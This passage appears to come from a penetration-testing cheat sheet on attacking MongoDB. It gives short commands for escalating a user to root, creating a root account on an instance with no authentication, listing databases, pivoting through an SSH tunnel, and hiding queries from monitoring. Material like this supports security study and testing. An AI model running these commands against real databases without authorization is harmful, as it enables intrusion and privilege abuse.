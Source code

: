 ### Exploiting Misconfigured Roles
- **Tool:** [[MongoDB]]
    ```js
    db.system.users.update({user: "normal_user"}, {$set: {roles: ["root"]}})
    ```
- **Description:** Modifies user roles to escalate privileges within the MongoDB instance.

### Exploiting No Authentication
- **Tool:** [[MongoDB]]
    ```js
    db.getSiblingDB("admin").runCommand({addUser: "admin", pwd: "P@ssw0rd", roles: ["root"]})
    ```
- **Description:** If no authentication is in place, directly creating a new root user account.

## Internal Reconnaissance

### Enumerating Databases
- **Tool:** [[MongoDB]]
    ```bash
    mongo --host <target_ip> --port 27017 --eval "db.adminCommand({listDatabases: 1})"
    ```
- **Description:** Lists all databases on the MongoDB server for further exploration.

### Exploring Collection Metadata
- **Tool:** [[MongoDB]]
    ```js
    db.<collection>.getIndexes()
    ```
- **Description:** Retrieves index information, which can give insight into the structure and important fields of a collection.

## Lateral Movement, Pivoting, and Tunnelling

### Pivoting through MongoDB
- **Tool:** [[SSH]]
    ```bash
    ssh -L 27018:localhost:27017 user@<jumphost_ip>
    mongo --host localhost --port 27018
    ```
- **Description:** Tunnels MongoDB traffic through SSH to gain access from another network segment.

## Defense Evasion

### Obfuscating Queries
- **Tool:** [[MongoDB]]
    ```js
    db.<collection>.find({"$where": "function() { return this.field1 == 'value' && this.field2 == 'value'; }"})
    ```
- **Description:** Uses JavaScript functions to create complex queries that are harder to detect by security monitoring tools.
